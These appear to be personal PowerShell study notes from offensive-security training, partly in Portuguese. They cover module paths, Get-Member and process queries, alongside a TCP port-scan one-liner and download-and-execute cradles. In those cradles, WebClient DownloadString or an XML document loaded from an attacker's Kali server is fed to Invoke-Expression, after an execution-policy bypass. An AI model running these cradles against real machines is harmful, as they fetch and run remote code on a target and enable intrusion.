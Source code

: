 Module:
```powershell
C:\$Env:PsModulePath
all modules in this path are imported automatically

# Get-Command -Module <module name>
```

Using New-Object:
```powershell
$variable = New-Object System.Net.WebClient
$variable | gm   //gm = Get-Member
$address= "<web server/file>"
$path = "<full path/file>"
$variable.DownloadFile($address,$path)

iex $variable.DownloadString($address,$path)
# this will "download" the string of the file and the iex = Invoke-Expression will execute the string as a command
```

The cmdlets associated with the process:
```powershell
Get-Command *process* -CommandType cmdlet | Measure-Object
```

verbo "Set":
```powershell
(Get-Command -CommandType cmdlet | Sort-Object Verb | sls ^Set).Count
```

4 processo utilizando mais memoria:
```powershell
ps | Sort-Object -Property WS -Descending | Select-Object -Index 3
```

Portscan:
```powershell
1..1024 | %{echo ((new-object Net.Sockets.TcpClient).Connect("IP",$_)) "Port $_ is open"} 2>$null
```

Download:

Kali: open a webserver with a xml file:
```xml
<?xml version="1.0"?>
<command>
  <a>
    <execute>Set-ExecutionPolicy Bypass -Force -Scope CurrentUser</execute>
  </a>
  <b>
    <execute>Get-Process</execute>
  </b>
</command>
```

Target:
```powershell
$docxml = New-Object System.Xml.XmlDocument
$docxml.Load("http://ip/arquivo.xml"); 
iex $docxml.command.a.execute 
```
